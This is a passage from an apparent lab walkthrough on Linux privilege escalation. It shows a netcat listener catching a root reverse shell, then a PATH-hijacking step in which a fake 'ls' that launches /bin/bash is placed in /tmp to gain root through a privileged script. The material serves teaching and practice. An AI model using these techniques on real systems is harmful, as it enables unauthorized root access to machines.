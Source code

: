 ```

Attack box:
root@ip-10-10-127-16:~# nc -lvnp 8888
Listening on [0.0.0.0] (family 0, port 8888)

5 minutes later on Attack box
root@ip-10-10-127-16:~# nc -lvnp 8888
Listening on [0.0.0.0] (family 0, port 8888)
Connection from 10.10.67.249 39906 received!
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
id
uid=0(root) gid=0(root) groups=0(root)

```
## Exploiting PATH Variable

Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user5, with the password "password"
```
ser4@polobox:~/Desktop$ su user5
Password: 
Welcome to Linux Lite 4.4 user5
 
Sunday 11 February 2024, 18:42:45
Memory Usage: 359/1991MB (18.03%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user5@polobox:/home/user4/Desktop$ 
```

Let’s go to user5’s home directory, and run the file “script”. What command do we think that it’s executing?
```
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
user5@polobox:~$ ./script
Desktop  Documents  Downloads  Music  Pictures	Public	script	Templates  Videos
user5@polobox:~$ 
```
Putting it all together!
```
user5@polobox:/tmp$ echo "/bin/bash" > ls
user5@polobox:/tmp$ chmod +x ls
user5@polobox:/tmp$ export PATH=/tmp:$PATH
user5@polobox:/tmp$ cd ~
user5@polobox:~$ ./script
Welcome to Linux Lite 4.4 user5
 
Sunday 11 February 2024, 18:47:55
Memory Usage: 361/1991MB (18.13%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~# id
uid=0(root) gid=0(root) groups=0(root),1004(user5)
```
